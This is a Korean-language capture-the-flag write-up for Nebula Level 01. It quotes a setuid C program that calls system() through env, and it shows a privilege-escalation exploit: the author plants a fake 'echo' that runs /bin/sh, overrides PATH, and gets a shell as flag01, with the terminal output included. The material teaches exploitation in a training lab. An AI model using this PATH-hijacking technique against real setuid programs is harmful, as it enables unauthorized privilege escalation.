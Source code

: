 # Level 01

## Plot

### About

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level01 account with the password level01. Files for this level can be found in /home/flag01.

### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

## 환경변수를 조작하자

`/home/level01`에 `/bin/sh`을 실행하는 `echo` 프로그램을 하나 만들어 놓는다. 
그리고 `PATH` 환경변수 값을 없애고 `/home/level01`만 넣어 놓으면 `flag01` 프로그램에서 호출하는 `system` 함수의 `echo`는
임의로 우리가 생성한 `echo` 프로그램이 되고, 우리는 `flag01`의 권한으로 `/bin/sh`을 실행할 수 있게 된다.

```text
level01@nebula:/home/flag01$ ls -al
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
level01@nebula:/home/flag01$ PATH=/home/level01
level01@nebula:/home/flag01$ /usr/bin/env
TERM=xterm-256color
SHELL=/bin/sh
...
PATH=/home/level01
...
_=/usr/bin/env
level01@nebula:/home/flag01$ ./flag01
sh-4.2$ /bin/getflag
You have successfully executed getflag on a target account
```

좀 어거지로 한 느낌이 있긴 한데... 다른 사람들의 풀이를 살펴보자.